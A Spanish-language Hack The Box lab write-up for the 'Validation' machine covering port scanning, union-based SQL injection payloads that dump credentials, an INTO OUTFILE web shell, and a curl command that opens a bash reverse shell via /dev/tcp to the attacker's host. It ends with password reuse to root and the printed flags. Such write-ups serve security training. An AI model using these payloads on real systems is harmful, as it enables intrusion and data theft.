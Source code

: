 ```yaml
---
layout: single
title: Validation - Hack The Box
excerpt: "Máquina muy interesante, con la cual puedes practicar bastante SQL Injection. Tiene una dificultad de Easy por lo que no sera mucho problema hacerla."
date: 2022-03-15
classes: wide
header:
  teaser: /assets/images/htb-writeup-validation/validation_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
   - hackthebox
   - infosec
tags:
   - linux
   - SQL Injection Error Based
   - SQL RCE (into outfile)
   - Information Leakage
---
```


![](/assets/images/htb-writeup-validation/validation_logo.png)

# Reconocimiento

Como siempre, comenzaremos efectuando un escaneo de puertos por el protocolo **TCP**, y el output lo redirigiremos al fichero `allPorts`.

```bash

h3g0c1v@kali:~/htb/validation$ nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.11.116 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 12:14 CET
Initiating SYN Stealth Scan at 12:14
Scanning 10.10.11.116 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 22/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 12:14, 10.83s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.036s latency).
Scanned at 2022-03-16 12:14:13 CET for 11s
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.98 seconds
           Raw packets sent: 65544 (2.884MB) | Rcvd: 65572 (2.623MB)


```

Después detectaremos la **versión** y **servicio** que corren bajo los puertos que hemos detectado abiertos.

```bash

h3g0c1v@kali:~/htb/validation$ nmap -sCV -p22,80,4566,8080 10.10.11.116 -oN targeted                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 12:15 CET
Nmap scan report for 10.10.11.116
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.52 seconds

```

Siguiendo con el reconocimiento vamos a ver un poco más sobre esos puertos **http** abiertos usando la herramienta **whatweb**.

```bash
h3g0c1v@kali:~/htb/validation$ whatweb http://10.10.11.116     
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]

h3g0c1v@kali:~/htb/validation$ whatweb http://10.10.11.116:8080
http://10.10.11.116:8080 [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx

h3g0c1v@kali:~/htb/validation$ whatweb http://10.10.11.116:4566
http://10.10.11.116:4566 [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[403 Forbidden], nginx
```

Bien, ya podemos ir a ver que hay en cada una de las páginas web.

![](/assets/images/htb-writeup-validation/web80.png)

![](/assets/images/htb-writeup-validation/web8080.png)

![](/assets/images/htb-writeup-validation/web4566.png)

Vale, parece que las demás páginas no tienen nada interesante, aunque fuzeemos en ella, así que me quedaré con la del puerto **80**.

Vamos a intentar una inyección SQL, por lo que capturaré la petición con **burpsuite**.

![](/assets/images/htb-writeup-validation/burp.png)

Si intentamos la inyección en el campo del país, utilizando la cookie que nos establece el servidor, vemos que es vulnerable.

![](/assets/images/htb-writeup-validation/sql.png)

En este punto dumpeare la base de datos, realizando unas simples inyecciones SQL.

	- username=test&country=Brazil' union select 1-- -
	- username=test&country=Brazil' union select database()-- -
	- username=test&country=Brazil' union select (select schema_name) from information_schema.schemata-- -
	- username=test&country=Brazil' union select (select table_name) from information_schema.tables where table_schema="registration"-- -
	- username=test&country=Brazil' union select (column_name) from information_schema.columns where table_schema="registration" and table_name="registration"-- -
	- username=admin&country=Brazil' union select group_concat(username,0x3a,userhash) from registration-- -

Y ahí tenemos el hash de la cuenta del administrador.

![](/assets/images/htb-writeup-validation/dumpadmin.png)


# Cracking


Ese hash lo vamos a intentar crackear con el uso de **rainbowtables**.

![](/assets/images/htb-writeup-validation/crackhash.png)

Y bueno, vemos que el admin emplea una contraseña bastante fuerte, pero lo que hemos podido crackear sin dificultad. XD


# Intrusión a la Máquina Víctima


Ahora, volviendo a las inyecciones SQL, vamos a probar si podemos meter contenido dentro de un fichero.

	- username=admin&country=Brazil' union select "probando" into outfile "/var/www/html/probando.txt"-- -

Si nos vamos a la página web, y buscamos por `/probando.txt`, que es el fichero que hemos creado y metido el texto **probando**, veremos que, efectivamente, hemos podido.
 
![](/assets/images/htb-writeup-validation/intooutfile.png)

Como podemos, meteré un contenido en PHP malicioso, para con el parámetro **cmd** pueda ejecutar comandos remotamente.

![](/assets/images/htb-writeup-validation/phpmalicososql.png)

Ahora, si nos vamos a la página web y nos metemos en `/cmd.php`, veremos que podemos ejecutar comandos

![](/assets/images/htb-writeup-validation/rce.png)

Ahora me estableceré una reverse shell con el fichero PHP malicioso, ejecutando el siguiente comando desde la terminal.

	- curl 10.10.11.116/cmd.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.3/443 0>&1"'

Y si nos vamos al lado donde estábamos en escucha, veremos que nos ha entablado la **reverse shell** correctamente.

![](/assets/images/htb-writeup-validation/reverseshell.png)

Estamos dentro. En este punto haré un tratamiento de la **tty** para tener una **shell** completamente interactiva.

![](/assets/images/htb-writeup-validation/tty.png)

Y exportaremos las dos variables.

![](/assets/images/htb-writeup-validation/exporttty.png)

Nos vamos al directorio `/home/htb/` y visualizaremos la `user.txt`.

```bash
www-data@validation:/var/www/html$ cd /home/htb/
www-data@validation:/home/htb$ cat user.txt 
aa77f865e5ad80d885ff92ca9117cdde
```

Si nos volvemos al directorio que estábamos nada más entrar, veremos que hay un `config.php`. Este fichero suele tener credenciales, por lo que vamos a verlo.

![](/assets/images/htb-writeup-validation/configphp.png)

Efectivamente, hay credenciales de la base de datos, pero realmente la base de datos ya la hemos dumpeado, por lo que en vez de utilizarla para meterme en ella, probaré a ver si se ha reutilizado la contraseña para el usuario **root**.

![](/assets/images/htb-writeup-validation/root.png)

Bueno, pues ya estamos como root. En este punto ya podemos irnos a `/root/` y visualizar la `root.txt`.

```bash
root@validation:/var/www/html# cd /root/
root@validation:~# cat root.txt 
6f2a67444026a225abecc203daf1fc3e
```

Y ésta es la máquina **Validation** , espero que te haya gustado el *write-up*, puedes ver más como éste en mi página web. :)
